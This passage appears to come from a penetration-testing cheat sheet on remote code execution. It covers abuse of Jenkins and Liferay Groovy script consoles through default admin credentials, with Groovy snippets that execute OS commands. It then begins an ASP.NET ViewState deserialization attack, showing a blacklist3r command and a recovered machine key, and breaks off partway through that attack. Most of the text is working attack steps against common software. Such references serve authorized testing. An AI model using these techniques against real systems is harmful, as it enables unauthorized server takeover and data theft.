 #### Technique 2. RCE using a Jenkins web-based groovy script console
```
➤ Step 1. Log into a Jenkins Web console with admin privileges (e.g. admin access is uncredentialed or whith default admin credentials 'admin:password' have not been changed)

➤ Step 2. Browse the Jenkins web-based groovy script console that allows to execute OS commands on the underlying Windows server.
	   - https://target-IP-or-Url-of-Jenkins-Website/script

➤ Step 3. Execute OS command using the groovy script console in jenkins
           Basic examples:
	   - print "cmd /c whoami >> C:\\Temp\\test.txt".execute().text   	//for a Windows server
	   - print "ls /".execute().text					//for a Linux server
```

#### Technique 3. RCE using a Liferay CMS web-based groovy script console
```
➤ Step 1. Log into a Liferay CMS Web portal with admin privileges (e.g. default admin credentials 'test@liferay.com:test')

➤ Step 2. Browse the Liferay web-based groovy script console that allows to execute OS commands on the underlying server (windows or linux).
	   - Location: Control Panel > Server Administration > Script
	   - URL: https://LIFERY-CMS-URL/group/control_panel/manage?p_p_id=com_liferay_server_admin_web_portlet_ServerAdminPortlet&p_p_lifecycle=0&p_p_state=maximized&p_p_mode=view&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_mvcRenderCommandName=%2Fserver_admin%2Fview&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_tabs1=script

➤ Step 3. Execute OS command using the groovy script console
           - Basic example of code to enter in the groovy script box to execute the 'whoami' command if the Liferay is running on a Linux server
		def sout = new StringBuilder(), serr = new StringBuilder()
		def proc = 'whoami'.execute()
		proc.consumeProcessOutput(sout, serr)
		proc.waitForOrKill(1000)
		println "out> $sout err> $serr"
```

#### Technique 4. RCE by exploiting ASP.NET ViewState deserialization in .NET Web applications
<i/>Note: It is generally possible to run code on a web server where a valid ViewState can be forged. This can be done if the MAC validation feature has been disabled or by knowing the validation and/or decryption keys and its algorithm used by the .NET Framework.</i>
<i/>Usefull links: https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net and https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/</i>
```
Example 1 - Context: .Net framework < 4,5 and EnableViewStateMac=true and ViewStateEncryptionMode=false and a default/pre-shared machine key is used
-----------------------------------------------------------------------------------------------------------------------------------------------------
➤ Step 1. Use the tool 'blacklist3r.py' to detect if a pre-shared machine key is used by a target .NET Web application
           - Tool: https://github.com/NotSoSecure/Blacklist3r
           - python examples/blacklist3r.py --url https://target-website.com/any-web-page.aspx
	         Matching MachineKeys found!
	         validationKey: C50B3C89CB21F4F1422FF158A5B42D0E8DB8CB5CDA1742572A487D9401E3400267682B202B746511891C1BAF47F8D25C07F6C39A104696DB51F17C529AD3CABE validationAlgo: SHA1

➤ Step 2. Grab a '__VIEWSTATEGENERATOR' value (modifier e.g. '306A601A') from a web page of the target .NET Web application

```